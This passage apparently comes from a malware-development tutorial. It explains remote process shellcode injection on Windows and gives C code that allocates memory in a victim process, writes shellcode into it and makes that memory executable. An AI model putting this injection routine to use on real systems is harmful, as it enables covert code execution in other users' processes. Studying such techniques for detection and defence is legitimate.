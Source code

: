 We will define two variables, one for the number of bytes that are written to memory (`sNumberOfBytesWritten`) and another one for storing the initial memory protection configuration  (`dwOldProtectio`).  This last one is sent as parameter to the `VirtualProtectEx` function. 

Afterwards we will use `VirtualAllocEx` API to obtain memory space in the victims memory space. We will need to use the `hProcess` to interact with the victim process and `sSizeOfShellcode` to define how much space we need.  

```c
BOOL InjectShellcodeToRemoteProcess(HANDLE hProcess, PBYTE pShellcode, SIZE_T sSizeOfShellcode, PVOID* ppAddress) {

	SIZE_T	sNumberOfBytesWritten = NULL;
	DWORD	dwOldProtection = NULL;
	
	*ppAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (*ppAddress == NULL) {
		printf("\n\t[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("\n\t[i] Allocated Memory At : 0x%p \n", *ppAddress);
	
	...

```

`*ppAddress`  will now contain a pointer to the memory address from the victims process where the injected shell-code starts. 

Next, we will write the shell-code using the pointer that we obtained in the previous step. 

```c
...
	if (!WriteProcessMemory(hProcess, *ppAddress, pShellcode, sSizeOfShellcode, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sSizeOfShellcode) {
		printf("\n\t[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
	printf("\t[i] Successfully Written %d Bytes\n", sNumberOfBytesWritten);
...
```

After the memory has been written, we need to change the page protections using the `PAGE_EXECUTE_READWRITE` flag. 

```c
	...
	if (!VirtualProtectEx(hProcess, *ppAddress, sSizeOfShellcode, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("\n\t[!] VirtualProtectEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}
```
